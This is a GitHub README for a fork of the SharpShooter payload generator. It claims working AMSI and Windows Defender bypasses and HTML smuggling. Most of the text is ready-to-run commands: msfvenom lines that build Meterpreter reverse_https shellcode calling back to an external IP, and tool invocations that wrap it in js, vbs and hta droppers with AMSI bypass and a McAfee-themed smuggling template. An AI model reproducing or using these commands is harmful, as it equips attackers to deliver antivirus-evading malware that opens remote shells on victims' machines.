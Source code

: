 Forking... and fixing a couple of things.

What's new:
1. Fixed the amsiEnable bypass to use the filelocation-independent version
2. Added polymorphism to the string "SharpShooter", which was popping Defender signature-based detections (seriously, that's all you got?).  This is enabled by default and cannot be disabled
3. Fixed .NET v4 js, vbs, hta sharpshooterv4 and stagelessv4
4. Ported to python3 (sorry but not sorry if python2 support lost?)

I can confirm that stageless js, vbs, and hta all work.  Can also confirm amsi bypass and defender bypass works (at least at this time).  Can also confirm HTML smuggling stageless works.

### Generate the shellcodes
    msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.83 LPORT=443 -e x64/xor_dynamic  -b '\\x00\\x0a\\x0d' -f raw  > rawsc.bin

    msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.83 LPORT=443 -e x64/xor_dynamic  -b '\\x00\\x0a\\x0d' -f raw  > csharpsc.txt  ### you'll need to remove all variable wrapping such that only the bytes remain

### Core stageless
    ./SuperSharpShooter.py --stageless --dotnetver 4 --rawscfile rawsc.bin --payload js --output test

	./SuperSharpShooter.py --stageless --dotnetver 4 --rawscfile rawsc.bin --payload vbs --output test

	./SuperSharpShooter.py --stageless --dotnetver 4 --rawscfile rawsc.bin --payload hta --output test

### Core with AMSI bypass
    ./SuperSharpShooter.py --stageless --dotnetver 4 --rawscfile rawsc.bin --payload js --output test --amsi amsienable

	./SuperSharpShooter.py --stageless --dotnetver 4 --rawscfile rawsc.bin --payload vbs --output test --amsi amsienable

	./SuperSharpShooter.py --stageless --dotnetver 4 --rawscfile rawsc.bin --payload hta --output test --amsi amsienable

### Core with AMSI Bypass and HTML Smuggling
    ./SuperSharpShooter.py --stageless --dotnetver 4 --rawscfile rawsc.bin --payload js --output test --amsi amsienable --smuggle --template mcafee

	./SuperSharpShooter.py --stageless --dotnetver 4 --rawscfile rawsc.bin --payload vbs --output test --amsi amsienable --smuggle --template mcafee


Big ups MDSec!
Original project:  https://github.com/mdsecactivebreach/SharpShooter

##### We'll retain the unabridged Readme.md below ######
=========== =========== =========== =========== =========== =========== =========== ===========
```
   _____ __                    _____ __                __           
  / ___// /_  ____ __________ / ___// /_  ____  ____  / /____  _____
  \__ \/ __ \/ __ `/ ___/ __ \\__ \/ __ \/ __ \/ __ \/ __/ _ \/ ___/
 ___/ / / / / /_/ / /  / /_/ /__/ / / / / /_/ / /_/ / /_/  __/ /    
/____/_/ /_/\__,_/_/  / .___/____/_/ /_/\____/\____/\__/\___/_/     
                     /_/                                            

```
